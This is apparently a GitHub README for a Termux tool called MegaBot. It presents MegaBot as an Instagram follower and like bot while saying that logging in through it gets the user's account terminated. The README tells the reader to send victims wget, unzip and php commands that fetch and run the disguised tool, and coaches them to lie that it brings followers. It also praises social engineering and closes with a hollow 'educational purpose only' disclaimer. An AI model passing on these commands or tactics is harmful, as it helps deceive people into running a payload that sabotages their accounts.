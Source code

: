 # Don't use this Tool!!

Don't ever Try this Tool Unless You know what are you Doing!!

Read this BLOG :- [BLOG LINK](https://cyberjeevi.blogspot.com/2021/08/get-yourself-banned-in-instagram.html)

![ScreenShot](https://user-images.githubusercontent.com/72810866/129549376-27c8be85-ee17-4fa6-9e35-53cd6fd18409.png)

This is What it Looks Like in Front View!!

But What's going inside??

If you run This Bot get Followers or Likes,

BOOM!! Your Account will be Vanished from Instagram!!

Wanna Know What's in Behind??

Read the ABOVE Blog Carefully!!

Wanna Make your Friends MAD!!
Use this Tool!!

Sometimes its a good tool to BREAK YOUR FRIENDSHIP!!

**** WORKS ON TERMUX ANDROID

*****pkg install php

## Usage:

Send the Below 3 Commands to Victim:

Copy & Paste Command Below:
```
wget -qO MegaBot.zip https://github.com/cyberjeevi/get-insta-ban/raw/main/MegaBot.zip
```
Unzip MegaBot:
```unzip MegaBot.zip```

Run Bot:
```php main.php```


That's All!! Login & Get Screwed UP!!



Convince Him By Telling Him , it'll get Followers and Likes!!
Smoooth!!

When he login to instagram using This Tool, His Account will be terminated By Instagram with no REASON!!



LAST BUT NOT LEAST!! 

Social-Engineering is an Art , you must know it to Make Someone Fall in your TRAP!!

****WarninG****

We are not Responsible for Anything you're Doing with this!!
This Tool is Meant for Educational Purpose Only!!

